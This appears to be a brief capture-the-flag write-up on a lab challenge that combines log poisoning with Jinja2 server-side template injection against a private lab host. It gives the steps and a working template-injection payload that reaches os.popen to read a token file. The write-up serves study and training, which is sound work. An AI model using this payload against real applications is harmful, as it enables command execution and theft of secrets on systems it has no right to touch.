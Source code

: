 ```yaml
---
date: 2025-03-15
categories: [CTF, IML]
title: "IML - Log Poisoning"
tags: ['log poisoning']

description: "Log Poisoning - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Log Poisoning

This is log poisoning and Jinja SSTI

**Reset if you get Internal Server Error**

Register new user

Go to search term and search for "user=admin"
While on that search result page - change the URL to <http://10.102.122.21/raw/log.txt>

You should be able to view the raw log file now

Go back to search and use the payload:
{% raw %}
```text
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("cat /tmp/token.txt").read()}}{% endif %}{% endfor %}
```
{% endraw %}
Now search for user=admin again and go to <http://10.102.122.21/raw/log.txt>

- And we get the token:

![image1](../resources/fb9f93ba8d6645828fcb4124db85d764.png)

<https://jayaye15.medium.com/jinja2-server-side-template-injection-ssti-9e209a6bbdf6>